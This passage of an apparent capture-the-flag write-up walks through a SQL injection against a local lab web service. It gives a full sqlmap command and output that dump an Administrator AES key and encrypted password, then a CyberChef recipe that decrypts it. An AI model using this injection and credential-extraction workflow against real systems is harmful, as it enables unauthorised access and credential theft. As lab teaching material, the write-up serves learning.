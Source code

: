 Since it is making database queries it might we vulnerable to SQL injection. Running sqlmap against it we quickly retrieve the database with the encrypted administrator password.

```php
$ sqlmap --level 5 --risk 3 -u 'http://localhost:1234/index.php?method=select&username=administrator&table=passwords'
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.3#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program

[*] starting @ 11:01:58 /2021-07-17/

...[snip]...
[11:02:06] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:02:06] [INFO] fetching current database
[11:02:06] [INFO] fetching tables for database: 'bread'
[11:02:06] [INFO] fetching columns for table 'passwords' in database 'bread'
[11:02:06] [INFO] fetching entries for table 'passwords' in database 'bread'
[11:02:06] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: bread
Table: passwords
[1 entry]
+----+---------------+------------------+----------------------------------------------+
| id | account       | aes_key          | password                                     |
+----+---------------+------------------+----------------------------------------------+
| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |
+----+---------------+------------------+----------------------------------------------+

[11:02:15] [INFO] table 'bread.passwords' dumped to CSV file '/home/jack/.local/share/sqlmap/output/localhost/dump/bread/passwords.csv'
[11:02:15] [INFO] fetched data logged to text files under '/home/jack/.local/share/sqlmap/output/localhost'

[*] ending @ 11:02:15 /2021-07-17/
```

There are multiple ways to decrypt it, one of the easiest is using cyberchef. We fill in all the values after decoding the base64 password. We also set the IV to all 0's. Upon filling in the whole recipe cyberchef starts the decryption automatically.

```php
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'Latin1','string':'k19D193j.%3C19391('%7D,%7B'option':'Hex','string':'0000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=SDJkRnovak53dFNUV0RVUm90OUpCaFdNUDZYT2RtY3BncXZZSEczNVFLdz0
```
